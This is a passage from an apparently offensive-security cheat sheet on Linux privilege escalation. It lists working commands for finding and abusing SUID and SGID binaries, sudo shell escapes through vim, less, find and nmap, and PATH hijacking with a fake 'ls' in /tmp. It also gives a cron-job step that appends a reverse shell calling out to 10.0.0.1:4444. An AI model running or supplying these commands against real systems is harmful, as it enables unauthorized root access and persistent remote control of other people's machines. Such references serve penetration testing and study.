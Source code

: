 #### 2. SUID/SGID Binaries

```bash
# Find SUID binaries
find / -perm -4000 -type f 2>/dev/null

# Find SGID binaries
find / -perm -2000 -type f 2>/dev/null

# Exploit SUID binaries
# Example: find with SUID
find . -exec /bin/sh -p \; -quit

# GTFOBins for exploitation techniques
# https://gtfobins.github.io/
```

#### 3. Sudo Misconfigurations

```bash
# Check sudo permissions
sudo -l

# Common exploits:
# - sudo vim → :!sh
# - sudo less → !sh
# - sudo find → find . -exec /bin/sh \; -quit
# - sudo nmap → nmap --interactive; !sh

# Sudo version vulnerabilities
sudo --version
# CVE-2021-3156 (Baron Samedit)
```

#### 4. Cron Jobs

```bash
# List cron jobs
crontab -l
cat /etc/crontab
ls -la /etc/cron.*

# Check for writable cron scripts
find /etc/cron* -type f -perm -o+w 2>/dev/null

# Modify writable cron script
echo "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1" >> /path/to/cron/script.sh
```

#### 5. Path Hijacking

```bash
# Check PATH
echo $PATH

# If writable directory in PATH
export PATH=/tmp:$PATH

# Create malicious binary
echo "/bin/bash" > /tmp/ls
chmod +x /tmp/ls

# Wait for privileged user to run 'ls'
```
